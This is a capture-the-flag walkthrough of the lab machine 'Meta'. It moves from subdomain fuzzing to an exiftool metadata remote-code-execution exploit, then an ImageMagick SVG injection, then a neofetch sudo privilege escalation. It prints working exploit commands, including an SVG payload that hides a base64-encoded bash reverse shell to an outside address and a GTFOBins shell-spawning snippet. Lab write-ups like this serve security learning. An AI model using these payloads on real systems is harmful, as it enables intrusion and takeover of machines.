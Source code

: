 # Meta

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.204.20
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 14:51 EDT
Nmap scan report for 10.129.204.20
Host is up (0.0076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have to add `artcorp.htb` to our `/etc/hosts` file to view port 80.

### ArtCorp -> Subdomain Fuzzing

The webpage was a start-up website:

<figure><img src="../../../.gitbook/assets/image (3259).png" alt=""><figcaption></figcaption></figure>

They had a team with some names I might need to use, along with a hint that this was a PHP based website.

<figure><img src="../../../.gitbook/assets/image (3492).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website, so we can try `gobuster` scanning for directories and `wfuzz` scanning for sub-domains. A `gobuster` scan reveals nothing, but the `wfuzz` scan did reveal one sub-domain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.artcorp.htb' --hw=0 -u http://artcorp.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://artcorp.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000004177:   200        9 L      24 W       247 Ch      "dev01"
```

Here's the webpage:

<figure><img src="../../../.gitbook/assets/image (1495).png" alt=""><figcaption></figcaption></figure>

### Metadata RCE

The application allows us to upload images to the machine.

<figure><img src="../../../.gitbook/assets/image (3411).png" alt=""><figcaption></figcaption></figure>

Wneh an image is uploaded, the metadata of the image is printed on screen below:

<figure><img src="../../../.gitbook/assets/image (3313).png" alt=""><figcaption></figcaption></figure>

This was the output of `exiftool`, which has some RCE attacks possible through metadata.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

By following the PoC, I was able to confirm that we had RCE on the machine:

```bash
exiftool -config eval.config runme.jpg -eval='system("ls -la")' 
# upload runme.jpg
```

<figure><img src="../../../.gitbook/assets/image (2124).png" alt=""><figcaption></figcaption></figure>

For some reason, the above PoC doesn't let me execute reverse shells. So I changed the script used to this:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

After changing the `exploit.py` file to have the correct port and IP address, I got a reverse shell.

<figure><img src="../../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We cannot grab the user flag yet.&#x20;

### Morgify

There wasn't much on the machine that `www-data` could access. So I downloaded `pspy64` onto the machone to view processes executed by `root` and the user `thomas`.

There was a script run by the user:

```
2023/05/07 09:37:01 CMD: UID=1000 PID=1335   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=1000 PID=1336   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=1000 PID=1338   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=0    PID=1337   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=0    PID=1339   | /bin/sh -c rm /tmp/* 
2023/05/07 09:37:01 CMD: UID=1000 PID=1340   | pkill mogrify
```

Here's the script:

{% code overflow="wrap" %}
```bash
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```
{% endcode %}

`mogrify` was used, and it is an image editor that is part of ImageMagick. We can first find the version of ImageMagick used here:

```
www-data@meta:/tmp$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

Interesting. There are some RCE exploits pertaining to this:

{% embed url="https://www.cybersecurity-help.cz/vdb/SB2020121303" %}

{% embed url="https://github.com/coco0x0a/CVE-2020-29599" %}

How the exploit works is thorugh embedding XML code within an SVG file. Here's the SVG file I used:

```markup
<image authenticate='ff" `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:exploit.svg" height="100" width="100"/>
  </svg>
</image>
```

This uses a base64 encoded `bash` one-liner reverse shell. After waiting for a little bit, we should get a shell as `thomas`.&#x20;

<figure><img src="../../../.gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

### Neofetch

When we check `sudo` privileges, we see the following:

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

GTFOBins does have a command for this binary, but it doesn't work:

```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```

Then, I noticed the `XDG_CONFIG_HOME` environment variable. The exploit above relies on changing the configuration files for `neofetch`. In this case, since we cannot specify any flags, we can just create a malicious configuration file that would give us a root shell.

<figure><img src="../../../.gitbook/assets/image (3563).png" alt=""><figcaption></figcaption></figure>
